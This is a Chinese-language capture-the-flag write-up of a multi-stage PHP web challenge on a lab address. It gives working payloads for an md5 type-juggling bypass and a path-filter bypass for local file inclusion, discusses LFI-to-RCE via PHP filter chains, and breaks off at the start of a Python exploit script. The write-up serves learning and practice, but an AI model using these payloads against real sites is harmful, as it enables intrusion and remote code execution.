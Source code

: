         else:
            result = "QQ2"
    ```
    而因為\$B本來就沒東西，所以會進到else，必且md5(\$A)是true，所以會return Stage 3的link給我們
    Payload: `http://172.31.210.1:33002/stage2_212ad0bdc4777028af057616450f6654.php/?A[]=QNKCDZO&B[]=240610708`
    ![圖片](https://hackmd.io/_uploads/SkwCW4Ft6.png)
3. LFI
    :::spoiler Source Code
    ```php=
    <?php
    include('config.php');
    echo '<h1>👻 Stage 3 / 4</h1>';

    $page = $_GET['page'];

    highlight_file(__FILE__);
    echo '<hr>';
    if (isset($page)) {
        $path = strtolower($_GET['page']);

        // filter \ _ /
        if (preg_match("/\\_|\//", $path)) {
            echo "<p>bad hecker detect! </p>";
        }else{
            $path = str_replace("..\\", "../", $path);
            $path = str_replace("..", ".", $path);
            echo $path;
            echo '<hr>';
            echo file_get_contents("./page/".$path);
        }
    } else die('ERROR: page should be given');
    ```
    :::
    這個小題是個簡單的LFI，要找的檔案其實就是config.php(不然其實也不知道要找甚麼)，關鍵的地方在於他有設filter，簡單bypass一下就過了(把`../`變成`....%5c`就可以了)，取得config.php後就打開source code inspect一下就知道關鍵stage 4的link了
    Payload: `http://172.31.210.1:33002/stage3_099b3b060154898840f0ebdfb46ec78f.php?page=....%5cconfig.php`
    ![圖片](https://hackmd.io/_uploads/HJAS84tK6.png)
4. LFI2RCE - PHP Filter Chain
這一題是最難的，最後忍不住還是去看了教學，但跟著做還是要花好久的功夫才能打穿，這一題就是典型的LFI2RCE的題目，一開始是看[飛飛的文章](https://ithelp.ithome.com.tw/articles/10241555)，發現他可以成功query`../../../../../proc/self/environ`這個東西，所以有一大半時間都在找如何用這個東西inject webshell達到RCE，但不確定是權限不夠還是怎麼樣，過程中困難重重也沒有快要成功的跡象，因此就只能嘗試教學中提到的php filter chain，話說[steven的文章](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)很優質耶，已經是一個php lfi2rce的教科書了，重點是察看的payload來源於[wupco大的script](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)也是怎麼試都不成功，最後是察看[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)這篇文章才解決，我是用[他們自己寫的script](https://github.com/synacktiv/php_filter_chain_generator)，不確定是哪個環節出問題
#### Exploit
Script For Stage 4
```python=
import requests
import subprocess
from sys import *

url = "http://172.31.210.1:33002/stage4_b182g38e7db23o8eo8qwdehb23asd311.php"

command = ""
for i in argv[1:]:
    command += i + ' '

```